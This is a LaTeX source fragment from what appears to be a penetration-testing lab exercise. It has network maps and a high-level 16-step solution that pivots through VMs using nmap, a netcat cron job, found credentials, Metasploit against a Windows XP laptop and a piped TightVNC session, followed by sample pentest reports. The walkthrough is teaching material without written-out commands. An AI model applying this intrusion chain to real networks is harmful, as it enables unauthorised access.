\end{lstlisting}
and the modified sshd\_config file (file included as sshdconfig.txt
\end{itemize}
\end{Large}
\begin{figure}[H]
	
\includegraphics[width=\linewidth]{NetworkMap.jpg}
    \caption{Network Map Layer 1}
    \label{fig:NetworkMap}
\end{figure}
\begin{figure}[H]
	
\includegraphics[width=\linewidth]{NetworkMap2_3.jpg}
    \caption{Network Map Layer 2 and 3}
    \label{fig:NetworkMap2}
\end{figure}
\noindent\textbf{Possible Solution:}\\
Step 1: SSH into the Android VM.
Step 2: Discover that the Android VM has a Kali tool set.\\
Step 3: Use nmap from the Android to discover the Ubuntu Web Server has an open SSH port.
Step 4: SSH into the Ubuntu Web Server.\\
Step 5: Check the Cron jobs that are running.\\
Step 6: Exploit the netcat to the IT Kali VM to gain permanence to it.\\
Step 7: Find suspicious files on the IT Kali box to discover login credentials to the Vyos router.\\
Step 8: Use nmap from the IT Kali box to discover the open SSH port on the Vyos router.\\
Step 9: SSH into the Vyos router and check the firewall configuration.\\
Step 10: See that the target computer is only accessible by Walter's Work PC.\\
Step 11: On the second day discover a new device on the WIFI network.\\
Step 12: Use metasploit from the Android VM to get into the Win XP laptop.\\
Step 13: Get information from the laptop about the TightVNC connection on Walter's work PC.\\
Step 14: Use netcat to pipe the TightVNC connection from the Attacking Kali VM to Walter's workstation.\\ 
Step 15: With a remote desktop of Walter's PC, see that there is another remote connection going to the target machine.\\
Step 16: Use the connection to get to the target machine and create a file on the desktop.

\pagebreak
\begin{LARGE}
The following report is the works of Julio Cesarfort.\\ \cite{Ref:Sample1}
\end{LARGE}
\pagebreak
\setboolean{@twoside}{false}
\label{example1}

\includepdf[pages=-, offset=0 -75]{example1.pdf}
\pagebreak
\begin{LARGE}
\noindent The following report is the works of the organization Offensive Security.\\ \cite{Ref:Sample2}
\end{LARGE}
\pagebreak
\label{example2}
\includepdf[pages=-, offset=0 -75]{example2.pdf}
 \bibliography{ref}
 \bibliographystyle{apalike}
\end{document}